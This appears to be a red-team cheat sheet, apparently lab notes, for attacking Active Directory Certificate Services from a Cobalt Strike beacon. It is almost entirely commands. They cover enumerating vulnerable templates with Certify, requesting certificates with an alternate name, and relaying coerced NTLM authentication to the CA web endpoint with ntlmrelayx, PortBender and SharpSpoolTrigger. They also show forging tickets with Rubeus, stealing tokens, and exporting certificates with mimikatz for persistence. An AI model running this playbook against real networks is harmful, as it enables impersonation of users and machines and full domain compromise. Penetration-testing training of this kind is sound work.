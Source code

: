 # Active Directory Certificate Services (ADCS)

## Enumerate ADCS

# Finding Certificate Authorities

    beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe cas

# Miconfigured Certificate template

    beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /vulnerable

# Attack Case 1: _ENROLLEE_SUPPLIES_SUBJECT_

    beacon> getuid
    beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:CustomUser /altname:nlamb

    ubuntu@DESKTOP-3BSK7NO ~> openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

    ubuntu@DESKTOP-3BSK7NO ~> cat cert.pfx | base64 -w 0

    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /certificate:MIIM7w[...]ECAggA /password:<password> /nowrap

# Attack Case 2 : NTLMRelay on CA web endpoint

# NTLM Relaying to ADCS HTTP Endpoints

- Web End point for certificate services is at http[s]://<hostname>/certsrv.
- Redirect the NTLM auth traffic using PrintSpool attack from DC to CA (if services running on seperate system) to fetch the DC Certificate
- But if they are both running on same server then we can execute the attack targetting a system where unconstrained delegation (WEB) is allowed, and force it to authenticate with CA to capture its certificate
- Do the same setup for ntlmrelayx and use print spooler to force DC/WEB to authenticate with wkstn2

1. Setup socks proxy (beacon session)

        beacon> socks 1080 socks5 disableNoAuth socks_user socks_password enableLogging

2. Setup Proxychains to use this proxy

        $ sudo vim /etc/proxychains.conf
        socks5 127.0.0.1 1080 socks_user socks_password

3. Execute NTLMRelayx to target the certificate server endpoint

        attacker@ubuntu ~> sudo proxychains ntlmrelayx.py -t https://10.10.122.10/certsrv/certfnsh.asp -smb2support --adcs --no-http-server

4. Setup reverse port forwarding (System shell)

        beacon> rportfwd 8445 127.0.0.1 445

5. Upload PortBender driver and load its cna file (System shell)

        beacon> cd C:\Windows\system32\drivers
        beacon> upload C:\Tools\PortBender\WinDivert64.sys
        beacon> PortBender redirect 445 8445

6. Use PrintSpool attack to force WEB (unconstrained) server to authenticate with wkstn 2 (Domain Sesion)

        beacon> execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe 10.10.122.30 10.10.123.102

7. Use the Base64 encoded machine certificate obtained to get TGT of machine account

        beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /certificate:MIIM7w[...]ECAggA /nowrap

8. Use the TGT ticket obtained for S4U attack to get a service ticket

        beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:nlamb /self /altservice:cifs/dc-2.dev.cyberbotic.io /user:dc-2$ /ticket:doIFuj[...]lDLklP /nowrap

9. Inject the Service Ticket by creating a new sacrificial token

        beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFyD[...]MuaW8=

10. Steal token and access the service

        beacon> steal_token 1234
        beacon> ls \\web.dev.cyberbotic.io\c$

# ADCS Persistence

## User Persistance

1. Enumerate user certificate from their Personal Certificate store (execute from user session)

        beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe Certificates

2. Export the certificate as DER and PFX file on disk

        beacon> mimikatz crypto::certificates /export

3. Encode the PFX file to be used with Rubeus

        ubuntu@DESKTOP-3BSK7NO ~> cat /mnt/c/Users/Attacker/Desktop/CURRENT_USER_My_0_Nina\ Lamb.pfx | base64 -w 0

4. Use certificate to request TGT for the user (/enctype:aes256 - Better OPSEC)

        beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /certificate:MIINeg[...]IH0A== /password:mimikatz /enctype:aes256 /nowrap

5. if certificate is not present then requst from his loggedin session and then follow above steps

        beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:User

## Computer Persistance 

1. Export the machine certificate (requires elevated session)

        beacon> mimikatz !crypto::certificates /systemstore:local_machine /export

2. Encode the certificate, and use it to get TGT for machine account

        beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:WKSTN-1$ /enctype:aes256 /certificate:MIINCA[...]IH0A== /password:mimikatz /nowrap

3. If machine certificate it not stored, we can requet it using Certify (/machine param is required for auto elevation to system privilege)

        beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:Machine /machine
